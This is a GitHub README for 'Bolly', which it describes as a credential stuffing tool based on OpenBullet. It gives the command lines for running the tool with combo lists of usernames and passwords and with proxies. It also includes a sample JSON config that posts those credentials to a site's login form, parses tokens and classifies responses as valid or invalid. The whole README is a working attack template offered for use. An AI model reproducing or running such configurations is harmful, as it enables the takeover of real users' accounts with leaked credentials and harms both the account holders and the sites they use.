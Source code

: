 # Bolly

Bolly is an credentials stuffing tool based on OpenBullet high performance because it reuses the same http client [httpclient best practices](https://www.thecodebuzz.com/using-httpclient-best-practices-and-anti-patterns/)

# Usage

Open your cmd and past
```
> Bolly.exe your_config.json your_combos.txt
```
you can also specify a list of proxies ( http only )
```
> Bolly.exe your_config.json your_combos.txt your_proxies.txt
```

# Config Example

```json
{
   "Settings":{
      "Name":"Site",
      "UseCookies":false,
      "AllowAutoRedirect":true,
      "MaxDegreeOfParallelism":1
   },
   "Blocks":[
      {
         "Type":"Request",
         "Methode":"Post",
         "Url":"https://www.site.com",
         "ContentType":"application/x-www-form-urlencoded",
         "Content":"email=<USERNAME>&password=<PASSWORD>",
         "Headers":[
            "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
            "Pragma: no-cache",
            "Accept: */*"
         ],
         "LoadSource":true
      },
      {
         "Type":"Parse",
         "ParseName":"TOKEN",
         "Source":"<SOURCE>",
         "Methode":"LR",
         "FirstInput":"LeftInput",
         "SecondInput":"RightInput",
         "Capture":true
      },
      {
         "Type":"KeyCheck",
         "KeyCheckPatterns":[
            {
               "Status":"Invalid",
               "Source":"<SOURCE>",
               "Condition":"Contains",
               "Key":"InvalidKey"
            },
            {
               "Status":"Success",
               "Source":"<RESPONSECODE>",
               "Condition":"Equal",
               "Key":"200"
            }
         ],
         "RetryIfNotFound":true
      }
   ]
}
```
